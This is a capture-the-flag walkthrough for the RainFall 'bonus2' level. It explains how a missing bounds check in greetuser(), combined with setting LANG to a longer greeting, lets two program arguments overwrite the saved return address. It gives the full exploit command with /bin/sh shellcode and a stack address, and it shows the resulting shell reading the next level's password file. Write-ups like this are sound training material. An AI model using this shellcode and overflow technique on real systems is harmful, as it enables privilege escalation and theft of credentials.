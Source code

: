 ## bonus2

The program in `bonus2` expects two arguments otherwise the program exit properly. <br> `0x08048538 <+15>:	cmp    DWORD PTR [ebp+0x8],0x3`<br>
The `main()` function reserves space for a *buffer[0x50]* `0x08048548 <+31>:	lea    ebx,[esp+0x50]` where `40 bytes` from the first argument __argv[1]__ will be copied and
another `32 bytes` from the second arguments __argv[2]__ will be also copied right after the first <br> `40 bytes` `0x08048594 <+107>:	add    eax,0x28`. <br>
Next a call to `getenv()` wiht the the parameter `"LANG"` is made and the the value return by `getenv()` is stored at `esp+0x9c` then two calls to `memcmp()` are
made against this value, the first will check if the string is equal to *fi* if they are equal a *global* variable stored at `0x8049988` will be set to `0x1` if 
the strings doesn't match the second call to `memcmp()` will be made this time with the string *nl* and if they are equal the *global* variable will be set `0x2`
if none of the cases are true the *global* variable as a default value of `0x0`. <br>
Next a call to the function `greetuser(buffer[0x50])` will be made.<br>
The function `greetuser()` also reserves spaces for a *greetbuffer[0x48]* and then the function will precede to check the value of the *global* variable
` 0x0804848a <+6>:	mov    eax,ds:0x8049988` against `0x2, 0x1, 0x0` depending on the result the function will `strncpy()` a *greeting* message to the *greetbuffer[0x48]* with the *LANG* that is set *(remember this, it will come in handy later)*.
Right after that the parameters we suplied to the program will be concatenated to the *greetbuffer[0x48]* `=> 0x0804850a <+134>:	lea    eax,[ebp+0x8]` <br>
*__Time to get dirty little boy!__* <br>
here smells some exploit, the `greetuser()` function is concatenating what we pass to the program as parameter to a *buffer[72]* without checking, what if we overwrite the main *eip* that is sleeping on the stack ? let's check if we can touch it :p <br>
We know that in `main()` two calls to `strncpy()` are made for copying `40 bytes` from the first argv and `32 bytes` from the second argv what gives us `72 bytes` plus the greeting that is copied into the *greetbuffer[72]* before the concatenation, it should be enough to write past the *greetbuffer[72]*, we will start with that.
```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()

(gdb) i r
eax            0x4f	79
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xbffff630	-1073744336
esp            0xbffff5e0	0xbffff5e0
ebp            0x42424242	0x42424242
esi            0xbffff67c	-1073744260
edi            0xbffff62c	-1073744340
eip            0x8004242	0x8004242
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
As we can see the `eip` is being overwrote by only two bytes and the greeting being added to the begining is in english, lets check our `env` indeed
```
[...]
PWD=/home/user/bonus2
LANG=en_US.UTF-8
SHLVL=5
HOME=/home/user/bonus2
[...]
```
Let's check the other greeting lengh
```
0x080484ba <+54>:	mov    edx,0x8048717 (I used a little program with a printf as I could not see the string)
(gdb) x/s 0x8048717
0x8048717:	 "Hyv\303\244\303\244 p\303\244iv\303\244\303\244 "
⇒ ./a.out 
Hyvää päivää (18 bytes) there's a space at the end and unicode
0x080484e9 <+101>:	mov    edx,0x804872a
(gdb) x/s 0x804872a
0x804872a:	 "Goedemiddag! " (13 bytes) idem
```
lets try to change our `env` it doesn't matter which we choose both are `13 bytes` long
```
:~$ export LANG="nl"
~$ env
[...]
PWD=/home/user/bonus2
LANG=nl
SHLVL=5
HOME=/home/user/bonus2
LC_TERMINAL_VERSION=3.3.12
LOGNAME=bonus2
[...]
```
Now let's re run the program again
```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()

(gdb) i r
eax            0x51	81
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xbffff640	-1073744320
esp            0xbffff5f0	0xbffff5f0
ebp            0x42424242	0x42424242 <---------------------------
esi            0xbffff68c	-1073744244
edi            0xbffff63c	-1073744324
eip            0x42424242	0x42424242  <--------------------------
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
Great we have it, now let's prepare the payload our `85 bytes` long string made the program to crash and we know the address of out *shellcode* must go in the second parameter as we can check in `ebp` and `eip`, so let's grab our *shellcode* from `level2` and make some maths:

|*shellcode*| `24 bytes`|
|-----------|-----------|
|__address__| `4 bytes` |
|*shellcode* + *address* | `28 bytes`|
|*2nd parameter*| `32 bytes`|

`28 bytes` is the total of our *shellcode* plus the `4 bytes` for our *shellcode* address, we need to put in the seconde parameter and it can take up to `32 bytes` that is perfect :p

Now we have the distance lets find the __address__ we know it is being stored at `$esp+0x50` lets check
```
(gdb) x/20xw $esp+0x50
0xbffff5f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff600:	0x41414141	0x41414141	0x41414141	0x41414141  <---- let's try this address
0xbffff610:	0x41414141	0x41414141	0x3133785c	0x3063785c
0xbffff620:	0x3035785c	0x3836785c	0x6632785c	0x6632785c
0xbffff630:	0x3337785c	0x3836785c	0x00000000	0xbffffef4
```
Build the payload
```
./bonus2 $(python -c "print 'A' * 40 ") $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x00\xf6\xff\xbf'")
```
Now lets try it
```
bonus2@RainFall:~$ ./bonus2 $(python -c "print 'A' * 40 ") $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x00\xf6\xff\xbf'")
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1�Ph//shh/bin��PS�ᙰ
                                                                         ̀���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
